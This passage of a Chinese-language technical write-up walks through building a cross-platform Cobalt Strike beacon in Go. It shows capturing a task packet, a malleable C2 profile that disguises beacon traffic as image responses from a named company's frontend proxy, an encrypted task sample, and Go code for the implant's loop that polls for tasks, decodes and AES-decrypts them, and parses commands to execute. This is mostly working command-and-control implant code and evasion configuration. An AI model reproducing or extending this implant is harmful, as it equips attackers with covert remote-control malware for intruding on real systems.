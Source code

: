   
我们在cs中向beacon发送任务：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134450.png)  
然后在beacon的机器上抓包获得封包的task数据。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134451.png)  
然后根据profile，删除prepend和append。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    http-get {    set uri "/api/getid";    client {        header "Accept" "*/*";        metadata {            base64;            prepend "SESSIONID=";            header "Cookie";        }    }  
        server {        header "Server" "Pingan Frontend Proxy";        header "x-pingan-id" "wwvdT1M01kspYwKlmJIe0delKPUqYiRw6VYJKw9kekjO01FMl2QIStx=";        header "X-Frame-Options" "SAMEORIGIN";        header "Content-Type" "image/png";        output {           # mask;            base64;            prepend ".PNG";            print;        }    }}

  
得到加密的task数据为：

  * 

    
    
    o+oyO90IlE+K4pr0d8GbVLZMbra2I4Ty90OHrqeOE/+NXDqos8Wzp2f0Dp9TIrfS

  
然后使用python脚本解密。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134452.png)  
如上可以看出taskType为：0x27，taskBuffer为空。  
 **1.2.4** **使用** **golang** **完成解包 ****  
**在使用Go语言开发跨平台的beacon时，在beacon返回源数据之后，就会进入循环定时获取task任务的过程，如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     ok := packet.FirstBlood()    if ok {        for {            time.Sleep(time.Duration(config.Sleep) * time.Millisecond)            respBytes := packet.PullCommand() //获取http get response数据            if respBytes != nil {                totalLen := len(respBytes)                //返回的数据必须要大于prepend+append的长度                if totalLen > config.GetAppend + config.GetPrepend {                    //respBytes := resp.Bytes()                    //删除prepend数据                    if config.GetPrepend !=0 {                        respBytes = respBytes[config.GetPrepend:]                    }                    //删除append数据                    if config.GetAppend !=0 {                        respBytes = respBytes[:len(respBytes) - config.GetAppend]                    }                    //decode base64                    decryptBytes, base64Err := base64.StdEncoding.DecodeString(string(respBytes))                    if base64Err != nil {                        fmt.Println("Exception: ",base64Err.Error())                        break                    }                    respBytes = decryptBytes  
                        //去除HashMac                    restBytes := respBytes[:len(respBytes)-crypt.HmacHashLen]                    //aes解密                    decrypted,decryptErr := packet.DecryptPacket(restBytes)                      if decryptErr != nil {                        fmt.Println("Exception: ",decryptErr.Error())                        break                    }  
                        //获取task数据的长度                    lenBytes := decrypted[4:8]                    packetLen := util.ReadInt(lenBytes)                    //获取task数据                    decryptedBuf := bytes.NewBuffer(decrypted[8:])                    for {                        if packetLen <= 0 {                            break                        }                        //解析task数据                        cmdType, cmdBuf, parseErr := packet.ParsePacket(decryptedBuf, &packetLen)                        //根据命令类型，执行相应操作                        ...                    }                }            }        }    }
